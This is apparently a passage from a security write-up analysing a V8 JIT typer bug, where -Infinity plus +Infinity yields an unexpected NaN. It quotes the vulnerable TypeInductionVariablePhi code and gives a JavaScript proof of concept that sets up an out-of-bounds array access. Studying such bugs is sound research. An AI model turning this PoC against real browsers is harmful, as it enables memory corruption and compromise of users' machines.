 ```
Type Typer::Visitor::TypeInductionVariablePhi(Node* node) {

  ...

  Type initial_type = Operand(node, 0);
  Type increment_type = Operand(node, 2);
  
  ...
  
  const bool both_types_integer = initial_type.Is(typer_->cache_->kInteger) &&
                                  increment_type.Is(typer_->cache_->kInteger);
  bool maybe_nan = false;
  // The addition or subtraction could still produce a NaN, if the integer
  // ranges touch infinity.
  if (both_types_integer) {
    Type resultant_type =
        (arithmetic_type == InductionVariable::ArithmeticType::kAddition)
            ? typer_->operation_typer()->NumberAdd(initial_type, increment_type)
            : typer_->operation_typer()->NumberSubtract(initial_type,
                                                        increment_type);
    maybe_nan = resultant_type.Maybe(Type::NaN());
  }
```

The code above shows that the typer only checks 1 scenario where the result of the change will be NaN (this can be verified by reading through the rest of that function). In the "change" part of the for loop `initial_type` is the induction variable and `increment_type` is the thing modifying it. If both variables are `kInteger` types, then it will check if their result can be NaN. If either is already NaN, then obviously the result can be NaN, but it turns out there is another situation where the result will be NaN, if +/- Infinity is added to it's opposite. These values are not part of `kInteger`, so they will not be checked. Here in lies the confusion. The result should be NaN, and will be at runtime, but the typer doesn't see that situation as possible when it is optimizing the rest of the function.

Now that we see how the code is vulnerable, let's look at the PoC to get an idea of how to trigger the vulnerability and further turn that into an OOB array access.

```
function trigger() {
  var x = -Infinity;
  var k = 0;
  for (var i = 0; i < 1; i += x) {
      if (i == -Infinity) {
        x = +Infinity;
      }

      if (++k > 10) {
        break;
      }
  }

  var value = Math.max(i, 1024);
  value = -value;
  value = Math.max(value, -1025);
  value = -value;
  value -= 1022;
  value >>= 1; // *** 3 ***
  value += 10; //

  var array = Array(value);
  array[0] = 1.1;
  return [array, {}];
};

```